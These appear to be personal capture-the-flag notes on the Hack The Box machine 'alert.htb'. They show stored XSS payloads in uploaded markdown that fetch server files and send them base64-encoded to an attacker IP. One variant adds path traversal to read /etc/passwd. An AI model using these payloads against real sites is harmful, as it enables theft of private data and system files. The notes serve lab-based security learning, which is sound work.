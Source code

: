 response from python server

![[Pasted image 20250620091104.png]]

### put the vulnerable md file link into the contact page's message

![[Pasted image 20250620091227.png]]

```js
<script src="http://alert.htb/visualizer.php?link_share=67f15a9a8q63.5378987.md"></script>
```

get new response

![[Pasted image 20250620091407.png| get base64 encoded response]]
base64 decode the message
![[Pasted image 20250620091438.png]]

we get new url
- add this to our fetch script

### fetch again with new url file link

neo.md
```js
<script>
fetch('http://alert.htb/messages.php?file=2024-03-10_15-48-34.txt')
.then(response=>response.txt())
.then(data => {
fetch("http://10.10.14.70/?data="+btoa(data));;
})
</script>
```

after uploading this neo.md we get link to it

##### xss using the new file link

```js
<script src="http://alert.htb/visualizer.php?link_share=67f15a9a8q63.5378987.md"></script>
```

we get data back, base64 encoded!
![[Pasted image 20250620091940.png]]

### look for LFI, etc/passwd

neo.md
```js
<script>
fetch('http://alert.htb/messages.php?file=../../../../etc/passwd')
.then(response=>response.txt())
.then(data => {
fetch("http://10.10.14.70/?data="+btoa(data));;
})
</script>
```
